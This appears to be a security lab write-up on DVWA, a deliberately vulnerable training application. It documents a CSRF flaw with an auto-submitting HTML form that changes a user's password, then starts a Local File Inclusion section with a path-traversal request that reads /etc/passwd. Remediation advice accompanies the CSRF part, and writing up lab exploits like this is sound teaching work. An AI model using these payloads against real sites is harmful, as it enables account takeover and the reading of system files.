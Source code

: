 ## Exploitation Proof

### Vulnerable Request
```
GET /vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change
```
The password can be changed using the vuln request by modifying the parameters password_new and password_conf
### CSRF PoC
```html
<html>
<body>
    <form action="http://localhost/vulnerabilities/csrf/" method="GET">
        <input type="hidden" name="password_new" value="attacker123">
        <input type="hidden" name="password_conf" value="attacker123">
        <input type="submit" name="Change" value="Change">
    </form>
    <script>document.forms[0].submit();</script>
</body>
</html>
```

## Impact
- Unauthorized password change for authenticated users
- Full account takeover
- No user interaction required

## 🛡️ Remediation
- Implement CSRF tokens
- Change GET to POST for state-changing operations
- Add SameSite cookies and referrer validation

---

# Local File Inclusion (LFI) Vulnerability

## Vulnerability Summary
**Type**: Local File Inclusion  
**Risk**: Critical  
**Location**: DVWA File Inclusion Module  
**Parameter**: `page` 

## Exploitation Proof

### System File Disclosure
```
http://localhost/vulnerabilities/fi/?page=../../../../../etc/passwd
```
